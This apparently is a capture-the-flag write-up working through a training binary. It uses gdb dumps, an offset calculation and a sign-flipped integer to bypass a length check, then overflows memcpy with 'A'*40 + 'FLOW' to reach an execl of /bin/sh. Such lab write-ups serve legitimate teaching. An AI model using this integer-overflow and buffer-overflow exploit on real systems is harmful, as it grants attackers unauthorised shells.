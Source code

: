 ```
if (number == 0x574f4c46) 
    execl("/bin/sh", "sh", 0);
```
```
run "8" "AAAA"

   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)

the return of memcpy

0xbffff6b0:	..........	0x41414141	...[1]....	...[2]....
0xbffff6c0:	...[3]....	...[4]....	...[5]....	...[6]....
0xbffff6d0:	...[7]....	...[8]....	...[9]....	0x00000008

the var we compar with located at:

(gdb) x $esp+0x3c
0xbffff6dc:	0x00000008

p/d 0xbffff6dc - 0xbffff6b4 = 40

run "9" $(python -c 'print "A" * 40')

36 is the maximum number of bytes that can be copied into the buffer (9 * 4).

 -2^31 to 2^31 – 1
 ```

The "memcpy" function is vulnerable to buffer overflow

argv1 = 11

argrv1 * 4 = 44

11 = 1011 in base 2

DWORD = 32 bits
```
printf %032d 1011
00000000000000000000000000001011
```

```
00000000000000000000000000001011 = 11
change sign
10000000000000000000000000001011 = -2147483637

signed 2's complement
-2147483637
```

```
unhex 574f4c46 | rev ; echo
FLOW
```

```
r -2147483637 $(python -c 'print "A"*40 + "FLOW"')

i r $ecx
ecx            0x2c	44
```






